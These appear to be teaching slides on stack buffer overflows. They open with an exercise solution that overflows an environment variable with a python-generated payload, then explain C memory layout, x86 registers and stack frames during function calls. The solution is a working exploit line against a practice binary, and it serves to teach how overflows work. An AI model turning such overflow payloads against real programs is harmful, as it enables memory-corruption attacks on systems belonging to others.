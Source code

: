
## Solution

<small>Env vars are another possible attack vector</small>

```bash
GREENIE=$(python -c 'print "A"*64 + "\x0a\x0d\x0a\x0d"') ./exercise03
you have correctly modified the variable
```

---

## Memory Layout in a C Program

![memlayout](https://i.stack.imgur.com/1Yz9K.gif)

---

### Some common registers (32 bit)

* %eip: instruction pointer
* %esp: stack pointer
* %ebp: base pointer

---

### Memory management during function calls

```c
void func(int a, int b)
{
    int c;
    int d;
    // some code
}
void main()
{
    func(1, 2);
    // next instruction
}
```

---

When `main` calls `func`
* Params pushed in reverse order onto stack
* Current value of `%eip` pushed onto stack
* `%eip` set to address of `func`

---

Inside `func`
* Push `%ebp` onto stack so we can restore it when `func` returns
* Store `%esp` in `%ebp` as new base pointer
* Push local vars onto stack, or reserve space for them

---